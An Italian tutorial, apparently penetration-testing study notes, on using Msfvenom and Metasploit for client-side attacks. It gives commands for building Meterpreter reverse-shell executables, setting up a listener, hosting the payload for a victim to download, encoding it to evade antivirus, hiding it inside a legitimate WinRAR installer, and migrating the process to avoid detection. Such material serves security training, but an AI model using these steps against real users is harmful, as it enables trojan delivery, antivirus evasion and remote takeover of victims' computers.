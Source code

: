 
# Msfvenom

Un **attacco client-side** è un attacco in cui si induce un client (cioè l'utente) ad eseguire un payload dannoso sul proprio sistema. Questo permette all’attaccante di ottenere l’accesso remoto al dispositivo della vittima. Questi attacchi si basano spesso su **tecniche di ingegneria sociale**, come l’invio di documenti infetti, link contraffatti, file eseguibili mascherati o PEs.

I **PE (Portable Executable)** sono file binari tipici dei sistemi Windows, con estensione `.exe` o `.dll`, che contengono codice eseguibile. Vengono spesso utilizzati per veicolare payload all’interno di attacchi client-side, poiché Windows li esegue direttamente se attivati dall’utente.

A differenza degli attacchi client-side, gli **attacchi server-side** mirano a sfruttare vulnerabilità direttamente su un servizio esposto da un server (come Apache, MySQL, SMB, ecc.), senza bisogno del coinvolgimento dell'utente.

In questo contesto si inserisce **Msfvenom**, uno strumento da riga di comando integrato in Metasploit Framework che consente di generare, personalizzare e codificare payload dannosi per diverse piattaforme. Msfvenom nasce dalla fusione di due utility precedenti:

- `msfpayload` → serviva a generare il payload.
- `msfencode` → serviva a codificare il payload per evitarne il rilevamento.

Oggi entrambe sono state rimpiazzate da `msfvenom`.

---

## Documentazione e Payload Disponibili

Per visualizzare la documentazione:
```bash
msfvenom
```

Per elencare tutti i payload disponibili:
```bash
msfvenom --list payloads
```

---

## Stage e No-Stage Payload

I **stage payload** sono payload modulari suddivisi in due fasi: un piccolo "stager" viene eseguito inizialmente e poi scarica il resto del payload. Questo permette di ridurre la dimensione iniziale e aumentare la flessibilità.

I **no-stage payload** invece sono monolitici: tutto il codice è contenuto in un unico eseguibile, e non richiedono un secondo stadio.

**Esempio di stage payload:**
- `windows/meterpreter/reverse_tcp`

**Esempio di no-stage payload:**
- `windows/shell_reverse_tcp`

---

## Generazione di un Payload

Per generare un payload, bisogna specificare:
- L’architettura (`-a`) – es. `x86` o `x64`
- Il payload (`-p`)
- L’IP e la porta dell’attaccante (`LHOST`, `LPORT`)
- Il formato (`-f`)

Esempio:
```bash
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > /tmp/payload.exe
```

Per visualizzare tutti i formati supportati:
```bash
msfvenom --list formats
```

---

## Attivazione del Listener

Per ricevere la connessione reverse del payload, è necessario configurare un **listener** in Metasploit:
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_attaccante>
set LPORT <PORT>
run
```

> Il payload usato nel `multi/handler` **deve combaciare esattamente** con quello specificato in fase di generazione con `msfvenom`. In caso contrario, la sessione non verrà interpretata correttamente.

---

## Hosting del Payload

Per consegnare il file alla vittima, si può usare un server HTTP semplice:
```bash
sudo python3 -m http.server 80
```

Poi, basterà fornire alla vittima un link del tipo:
```
http://<IP_attaccante>/payload.exe
```

In ambienti di test, questo approccio consente di simulare efficacemente un attacco client-side, sfruttando la disattenzione o la mancanza di competenze della vittima.

---

## Encoding dei Payload

Gli **encoder** sono moduli di Msfvenom che permettono di **modificare il codice binario (shellcode)** di un payload per **alterarne la firma**. Questo può servire a eludere gli antivirus, specialmente quelli che usano il **rilevamento basato su firme**.
> Il **shellcode** è il nucleo del payload, una sequenza di istruzioni in linguaggio macchina che viene eseguita quando il payload è attivato. In un payload come `meterpreter`, il shellcode è responsabile dell’instaurazione della sessione con l’attaccante. <br> Codificando il shellcode con un encoder, ne cambiamo la forma binaria mantenendo inalterata la funzionalità.

Gli antivirus, infatti, memorizzano le firme note di file malevoli in un database: se un file coincide con una di queste firme, viene identificato come pericoloso. L’**encoding** serve quindi a **modificare il bytecode del payload**, mantenendone il comportamento ma cambiandone l’impronta digitale.

Per elencare tutti gli encoder disponibili:
```bash
msfvenom --list encoders
```

Ogni encoder è classificato con un rank (es. `excellent`, `good`, `normal`, `low`, `manual`) e include una breve descrizione.

Il più noto è:
- `x86/shikata_ga_nai` → un encoder polimorfico XOR che muta a ogni generazione, rendendo ogni payload leggermente diverso.

**Esempio di encoding con Msfvenom:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 5 -f exe > /tmp/payload_encoded.exe
```

- `-e` specifica l’encoder
- `-i` imposta il numero di iterazioni (più iterazioni → più variazioni nel bytecode)

> Si consiglia di **non caricare i payload su VirusTotal** o simili, poiché questi strumenti contribuiscono ad aggiornare i database degli antivirus, rendendo il tuo payload riconoscibile.

---

## Iniezione in File Legittimi

Puoi mascherare il payload dentro un programma reale (es. WinRAR):
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 10 -f exe -x /path/to/winrar_setup.exe > /tmp/winrar_modificato.exe
```

- `-x` → file legittimo in cui iniettare
- `-k` → mantiene il comportamento originale del file

> `-k` funziona solo in alcuni casi e non è sempre affidabile: dipende da come il programma legittimo è strutturato.

---

## Post-Exploitation: Migrate

Dopo aver stabilito una sessione `meterpreter`, è consigliabile usare:
```bash
run post/windows/manage/migrate
```

Questo modulo migra il processo in uno stabile (es. `explorer.exe`), evitando crash e rilevamento.

---
